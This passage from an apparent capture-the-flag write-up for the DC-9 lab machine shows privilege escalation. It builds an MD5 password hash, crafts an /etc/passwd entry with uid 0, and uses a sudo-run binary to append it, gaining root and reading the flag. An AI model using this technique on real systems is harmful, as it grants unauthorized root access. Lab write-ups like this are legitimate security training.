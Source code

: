 - -1 : This is specifying which hashing algorithm to use. For this we use MD5. 
- -salt : strings to use as salt. I used the string salt.
- password : Basically this is a clear text password before any encryption. 

Realise that we are still missing a few stuff. Looking at /etc/passwd again, we see something like this: 
`root:x:0:0:/root:/bin/bash`

- x : This is usually the password, but we couldn't see it because its usually inside the shadow file. 

Open up a text editor and fill up the gaps. Our final payload will be like this: 

`fspxnky:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0:/root:/bin/bash`

Save the payload and run the binary again as root. 

```
sudo ./test /tmp/hehe.txt /etc/passwd
```

Once done, switch to the newly user that we created: 

```
fredf@dc-9:/opt/devstuff/dist/test$ su fspxnky
Password:
fspxnky@dc-9:/opt/devstuff/dist/test$ ls /root
theflag.txt
fspxnky@dc-9:/opt/devstuff/dist/test# cat /root/theflag.txt 


███╗   ██╗██╗ ██████╗███████╗    ██╗    ██╗ ██████╗ ██████╗ ██╗  ██╗██╗██╗██╗
████╗  ██║██║██╔════╝██╔════╝    ██║    ██║██╔═══██╗██╔══██╗██║ ██╔╝██║██║██║
██╔██╗ ██║██║██║     █████╗      ██║ █╗ ██║██║   ██║██████╔╝█████╔╝ ██║██║██║
██║╚██╗██║██║██║     ██╔══╝      ██║███╗██║██║   ██║██╔══██╗██╔═██╗ ╚═╝╚═╝╚═╝
██║ ╚████║██║╚██████╗███████╗    ╚███╔███╔╝╚██████╔╝██║  ██║██║  ██╗██╗██╗██╗
╚═╝  ╚═══╝╚═╝ ╚═════╝╚══════╝     ╚══╝╚══╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝╚═╝╚═╝
                                                                             
Congratulations - you have done well to get to this point.

Hope you enjoyed DC-9.  Just wanted to send out a big thanks to all those
who have taken the time to complete the various DC challenges.

I also want to send out a big thank you to the various members of @m0tl3ycr3w .

They are an inspirational bunch of fellows.

Sure, they might smell a bit, but...just kidding.  :-)

Sadly, all things must come to an end, and this will be the last ever
challenge in the DC series.

So long, and thanks for all the fish.
```

Sadly, this is the last DC machine that will be created from the creators. 
